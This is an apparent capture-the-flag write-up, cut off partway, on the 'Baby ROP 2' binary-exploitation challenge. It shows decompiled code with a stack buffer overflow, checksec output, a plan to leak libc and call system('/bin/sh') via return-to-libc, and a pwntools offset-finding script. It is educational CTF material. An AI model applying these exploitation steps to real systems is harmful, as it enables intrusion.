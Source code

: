 # Baby ROP 2

`nc problem.harekaze.com 20005`

[babyrop2](babyrop2)

[libc.so.6](libc.so.6)

Open and decompile on Ghidra:
```c
int main(void)

{
  ssize_t sVar1;
  undefined local_28 [28];
  int local_c;
  
  setvbuf(stdout,(char *)0x0,2,0);
  setvbuf(stdin,(char *)0x0,2,0);
  printf("What\'s your name? ");
  sVar1 = read(0,local_28,0x100);
  local_c = (int)sVar1;
  local_28[(long)(local_c + -1)] = 0;
  printf("Welcome to the Pwn World again, %s!\n",local_28);
  return 0;
}
```
Looks like its a buffer overflow!

It also give us `libc.so.6` which means its a Return to Libc attack!

Tutorial about ret2libc : [Doing ret2libc with a Buffer Overflow because of restricted return pointer - bin 0x0F](https://www.youtube.com/watch?v=m17mV24TgwY)

My idea its to do buffer overflow and execute `system("/bin/sh")`

By default the machine enable ASLR (Address Space Layout Randomization)

Which means we have to leak the system address first

Using `checksec` we can check the program protection:
```bash
# checksec babyrop2
[*] '/root/Downloads/harekaze/rop2/babyrop2'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found	# Buffer overflow is exploitable
    NX:       NX enabled		# Can't execute shellcode
    PIE:      No PIE (0x400000)	# Program function is fixed
```
First of course is find the offset:
```python
from pwn import *
elf = ELF('./babyrop2')
p = elf.process()
p.sendline('a'*44)
print p.recv()
```
Output:
```
[x] Starting local process '/root/Downloads/harekaze/rop2/babyrop2'
[+] Starting local process '/root/Downloads/harekaze/rop2/babyrop2': pid 11375
What's your name? Welcome to the Pwn World again, aaaaaaaaaaaaaaaaaaaaaaaaaaaa-!

[*] Stopped process '/root/Downloads/harekaze/rop2/babyrop2' (pid 11375)
```
Stopped means we break something, check it with `dmesg`
```
```